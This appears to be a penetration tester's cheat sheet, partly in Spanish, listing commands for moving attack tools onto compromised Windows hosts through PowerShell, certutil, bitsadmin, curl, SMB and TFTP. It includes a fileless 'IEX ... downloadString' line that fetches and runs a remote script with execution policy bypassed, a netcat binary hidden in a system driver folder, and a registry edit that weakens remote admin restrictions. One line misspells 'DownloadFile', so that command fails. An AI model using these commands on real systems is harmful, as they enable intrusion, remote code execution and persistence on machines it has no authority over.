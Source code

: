 # Windows Linux Commands For Files Transfers
```bash
Windows Commads
IWR( )
- powershell.exe -command iwr -Uri http://10.10.16.4/file -OutFile C:\Temp\file
- powershell.exe iwr -uri 10.10.16.4/file -o C:\Temp\file
- powershell iwr 10.10.16.4/file -o C:\Temp\file
- powershell Invoke-WebRequest "http://10.50.102.157:800/nc64.exe" -OutFile "C:\Windows\System32\spool\drivers\color\\Pro-nc64.exe"
- powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).downloadString('http://10.200.101.200:20003/PST.ps1')"
```

# Certutil
- certutil -urlcache -f http://10.10.16.4/file file
- certutil -urlcache -split -f http://10.10.16.4/file file 

# Bitsadmin
- bitsadmin /transfer job http://10.10.16.4/file C:\Temp\file

# Curl
- curl http://10.10.16.4/file -o file

# Wget
- powershell wget http://10.10.16.4/file -OutFile file
- powershell.exe wget http://10.10.16.4/file -OutFile file
# Powershell
- powershell.exe (New-Object System.Net.WebClient).DonwloadFile('http://10.10.16.4/file', 'file')

# SMB
- copy \\10.10.16.4\smbFolder\file 
- net use x: \\10.10.16.4\smbFolder\file; cd x; copy \\10.10.16.4\file

# TFTP
Es necesario usar el modulo Auxiliar Msf Server/tftp
- tftp -i 10.10.16.4 GET file.txt


# Linux Commands 
Servidor Web Para compartir archivos
1.- python3 -m http.server 80
2.- Servidor por SMB -- impacket-smbserver smbFolder $(pwd) -smb2support
3.- msfconsole --> TFTP
4.-


# LocalAccountTokenFilterPolicy - Pwned
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

# Enumeracion de Pogramas
tasklist /V | findstr <programa>
